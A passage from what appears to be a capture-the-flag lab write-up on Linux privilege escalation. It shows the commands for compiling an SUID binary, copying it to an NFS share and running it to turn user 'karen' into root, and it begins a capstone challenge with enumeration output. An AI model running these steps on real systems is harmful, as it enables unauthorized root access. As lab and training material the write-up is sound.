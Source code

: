 1. CTRL+X to save and close.
2. Compile the code (must be run as sudo).

sudo gcc nfs.c -o nfs -w

sudo chmod +s nfs

ls -l nfs

\-rwsr-sr-x 1 root root 8392 Feb 13 14:46 nfs

* Copy files to target.

cp /root/nfs /root/nfs.c /tmp/sharedfolder

* Navigate to the \`/home/ubuntu/sharedfolder' from the target and execute the "nfs" file.

cd /home/ubuntu/sharedfolder

id

uid=1001(karen) gid=1001(karen) groups=1001(karen)

./nfs

id

uid=0(root) gid=0(root) groups=0(root),1001(karen)

* Root shell achieved.

### **Capstone Challenge** <a href="#id-4ybqa0j2vur5" id="id-4ybqa0j2vur5"></a>

You have gained SSH access to a large scientific facility. Try to elevate your privileges until you are Root. Leave no privilege escalation vector unexplored, privilege escalation is often more an art than a science.

* hostname : ip-10-10-91-89
* name -a : Linux ip-10-10-91-89 3.10.0-1160.el7.x86\_64 #1 SMP Mon Oct 19 16:18:59 UTC 2020 x86\_64 x86\_64 x86\_64 GNU/Linux
* cat /proc/version : Linux version 3.10.0-1160.el7.x86\_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 4.8.5 20150623 (Red Hat 4.8.5-44) (GCC) ) #1 SMP Mon Oct 19 16:18:59 UTC 2020
* sudo -l : user leonard may not run sudo on ip-10-10-91-89.
* id : uid=1000(leonard) gid=1000(leonard) groups=1000(leonard) context=unconfined\_u:unconfined\_r:unconfined\_t:s0-s0:c0.c1023

history

1 ls

2 cd ..

3 exit

4 ls

5 cd Ã§Ã§

6 cd ..

7 ls
